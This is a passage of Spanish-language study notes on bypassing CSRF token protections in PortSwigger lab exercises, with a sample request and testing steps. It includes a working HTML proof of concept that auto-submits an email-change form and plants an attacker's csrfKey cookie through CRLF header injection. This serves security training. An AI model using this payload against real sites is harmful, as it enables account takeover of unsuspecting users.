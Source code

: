 Laboratorio  [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session).

### El CSRF Token esta vinculado a una cookie distinta a la de sesión

```jsx
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=test@test.com
```

Se puede dar el caso de que el token no esta ligado a la cookie que trackea la sesión y este ligada a otra(csrfkey). Para testear primero debemos probar:

4.1 Comprobar que la cookie(csrfkey) no esta ligado al token

- Introducir un token no valido
- introducir un token de otro usuario

4.2  Introducir una cookie(csrf Key) y token de otro usuario

Si este ultimo se cumple para explotar la vulnerabilidad debemos inyectar la cookie en la sesión del usuario en este ejemplo a través del parámetro de búsqueda de la web ya que se ve reflejado en la respuesta.

En esta PoC se utiliza el csrf y csrfkey del atacante para cambiar la del usuario

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://Url-Vulnerable/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test&#46;com" />
      <input type="hidden" name="csrf" value="CSRF-ATACANTE" />
    </form>
     <img src="https://0acb008503ccb1858109de59003c0073.web-security-academy.net?search=test%0d%0aSet-Cookie:%20csrfKey=CSRFKEY-ATACANTE%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie).

### CSRF token duplicado en la cookie.

Se puede dar el caso que el token aparezca duplicado en la cookie y en el parámetro de la petición, cuando la petición se envía, la validación que realiza es que tanto el token de la petición y la cookie sean el mismo, para testear esta vulnerabilidad se debe cambiar el valor del token y la cookie por otro pero que sea el mismo y realizar la petición, si se realiza con éxito es explotable.
